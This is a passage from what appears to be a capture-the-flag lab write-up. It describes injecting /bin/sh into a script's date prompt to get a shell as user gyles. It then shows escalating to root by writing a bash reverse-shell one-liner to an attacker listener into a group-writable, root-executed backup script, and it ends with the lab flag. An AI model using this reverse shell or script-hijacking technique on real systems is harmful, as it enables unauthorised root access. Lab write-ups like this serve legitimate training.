 So I can inject bash commands. I entered `/bin/sh` in every parameter until...
```
Enter 'date' to timestamp the file: /bin/sh
The Date is /bin/sh
whoami
gyles

```

I went back to /tmp and ran linpeas as gyles to see what I could find.

I found this line `You can write script: /usr/local/bin/main_backup.sh`
The file's perms are `-rwxrwxr-x  1 root admin   65 Jan 17  2021 main_backup.sh`

gyles is part of the admin group `uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)`,
so I can write main_backup.sh and I think I can just become root.

I left `bash -i >& /dev/tcp/10.8.248.108/1111 0>&1` in the main_backup.sh.
I tried to execute the script by got a shell for gyles. I exited out and setup my listener again.
After a bit this process was executed by root and I got a root reverse shell.
`THM{fhqbznavfonq}`
